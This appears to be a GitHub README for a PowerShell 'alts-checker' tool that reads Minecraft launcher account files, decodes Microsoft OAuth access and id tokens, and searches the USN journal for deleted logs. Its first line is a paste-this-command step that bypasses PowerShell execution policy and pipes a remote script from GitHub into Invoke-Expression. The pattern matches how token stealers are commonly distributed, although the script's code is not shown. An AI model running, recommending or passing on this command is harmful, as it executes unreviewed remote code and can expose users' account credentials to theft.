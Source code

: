 - `**powershell -Command "Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass; Invoke-Expression (Invoke-RestMethod 'https://raw.githubusercontent.com/OnlyDehBest/alts-checker/main/alts-checker.ps1')"**`

🛠️ **ALTS-CHECKER TOOL**
🔐 PowerShell script to analyze locally stored Minecraft accounts.

This PowerShell tool allows you to view, inspect, and decode Minecraft accounts stored in local files by TLauncher or the official Minecraft launcher, including Microsoft OAuth tokens (accessToken / id_token) when available.

📁**Open Log Folders**
 - Automatically opens log folders.

🔍 **Search for Deleted Logs**
 - Uses fsutil usn readjournal to detect traces of deleted files like:
  - latest.log, .log.gz, launcher_profiles.json, usernamecache.json, etc.
  - Results are saved to logs.txt and opened in Notepad.

🧾 **View Minecraft Accounts**
 - Scans and parses the following files:
   - TlauncherProfiles.json
   - launcher_accounts.json
   - usernamecache.json
   - usercache.json

**Displays information for each account found**:
 - Username
 - UUID
 - Account type
 - Microsoft token present ✅ / ❌
 - If a token is found, it’s decoded to show JWT claims in a readable table.

🔓 **Microsoft Token Decoder**
 - Function: Decode-Jwt
 - Accepts a JWT (accessToken or id_token).
 - Splits and base64-decodes the payload.
 - Returns readable JSON claims.

⚠️ **Requirements**
 - Windows PowerShell
 - Admin rights (for deleted file search)
 - TLauncher or Minecraft Launcher installed

📁 **Files Analyzed**
 - %APPDATA%\.minecraft\TlauncherProfiles.json
 - %APPDATA%\.minecraft\launcher_accounts.json
 - %APPDATA%\.minecraft\usernamecache.json
 - %APPDATA%\.minecraft\usercache.json

📜 **Legal Notice**
This tool is intended for personal use and debugging only. It must not be used to violate any terms of service or access unauthorized accounts.
The author is not responsible for any misuse of this script.
